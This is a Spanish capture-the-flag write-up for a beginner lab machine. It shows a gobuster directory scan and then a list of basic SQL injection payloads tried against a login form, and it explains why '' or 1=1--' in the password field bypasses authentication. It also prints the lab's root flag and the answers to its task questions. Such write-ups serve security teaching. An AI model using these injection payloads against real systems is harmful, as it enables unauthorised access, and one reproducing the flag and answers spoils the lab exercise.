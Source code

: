 * `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
: `-w` indica la wordlist a utilizar

* `-t 20`
: `-t` indica el número de hilos a utilizar (**por defecto 10** si no se indica otro valor)

![GoBuster](gobuster.png)

El resultado no revela nada especialmente de interés.

## Inyección SQL

Ya que vemos el formulario para un **usuario** y **contraseña** damos por supuesto de que tiene que haber por detrás corriendo una **base de datos** con alguna tabla que contenga la información para validar los valores introducidos por el usuario.

> Una inyección SQL consiste en jugar con el campo disponible al usuario para introducir información para modificar el comportamiento de la query que la web ejecutará para traer información de la base de datos
{: .prompt-info}

Probamos con un listado de inyecciones básicas:

* `admin' --` En el campo **User**. No funciona
* `admin' #` En el campo **User**. No funciona
* `admin'/*` En el campo **User**. No funciona
* `' or 1=1--` En el campo **Password**. Funciona !! 🎉
* `' or 1=1#`
* `' or 1=1/*`
* `') or '1'='1--`
* `') or ('1'='1--`

![Flag](flag.png)

### Explicación de la inyección SQL => `' or 1=1--`

Aplicado sobre el campo password, aplicando un `'` al principio se puede decir que cierra con un *vacío* el campo del password y le une un `or` con una función que es siempre `true` como es el `1=1`. Finalmente se añaden un doble guión `--` al final para que no interprete lo que haya predefinido después.

# Flag
![Root Flag](https://img.shields.io/badge/RootFlag-e3d0796d002a446c0e622226f42e9672-red)

## Tasks

Estas **Tasks** hacen las funciones de *mini-flags* y ayudan guiando la resolución de la máquina:

1. What does the acronym SQL stand for?
: `Structured Query Language`

2. What is one of the most common type of SQL vulnerabilities?
: `SQL injection`
